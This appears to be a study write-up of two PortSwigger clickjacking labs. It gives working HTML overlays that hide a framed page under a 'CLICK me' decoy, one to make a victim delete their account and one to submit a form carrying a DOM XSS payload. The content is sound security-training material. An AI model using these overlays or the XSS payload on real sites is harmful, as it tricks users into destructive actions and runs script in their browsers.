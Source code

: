 ## LAB - 1
**lab link: <https://portswigger.net/web-security/clickjacking/lab-basic-csrf-protected>**

 **Topic :-** 

- Basic clickjacking with CSRF token protection.


 **To Solve :-**

- Craft some HTML that frames the account page and fools the user into deleting their account.

 **Procedure :-**

1. Login with given creds., there's a "Delete" button.
2. Open exploit server. and craft a html page containing iframe element, to overlay the account page , which would be invisible and there's a "CLICK me" page above it, having "CLICK me" text just above the "Delete" button, to fool the victim, thinking its normal click me button.
3. In the exploit server, body :-
```
<style>
    iframe{
        position:relative;
        width: 1000px;
        height: 700px;
        opacity:0.001;
        z-index:2;
}
    div{
        position:absolute;
        top:520px;
        left:60px;
        z-index:1;  
}
</style>
<div>CLICK me</div>
<iframe src="https://0a4300dd037a4ccd8070b8fa00fe008e.web-security-academy.net/my-account"></iframe>
```
4. Store it , and then send to victim. and Voila.


## LAB - 2
**lab link: <https://portswigger.net/web-security/clickjacking/lab-exploiting-to-trigger-dom-based-xss>**

 **Topic :-** 

- Exploiting clickjacking vulnerability to trigger DOM-based XSS.

 **To Solve :-**

- Construct a clickjacking attack that fools the user into clicking the "Click me" button to call the `print()` function.

 **Procedure :-**

1. There's a feedback submit page. try to submit a feedback and notice that there is some xss in "name".
2. Open exploit server. and craft a html page containing iframe element, to overlay the feedback page , which would be invisible and there's a "CLICK me" page above it, having "CLICK me" text just above the "submit" button, to fool the victim, thinking its normal click me button., and the html also fillout the form along including the payload in the uri.
3. In the exploit server, body :-
```
<style>
    iframe{
        position:relative;
        width: 1000px;
        height: 900px;
        opacity:0.1;
        z-index:2;
}
    div{
        position:absolute;
        top:815px;
        left:80px;
        z-index:1;  
}
</style>
<div>CLICK me</div>
<iframe src="https://0a4300dd037a4ccd8070b8fa00fe008e.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=a@b.com&subject=test&message=test"></iframe>
```
4. Store it , and then send to victim. and Done.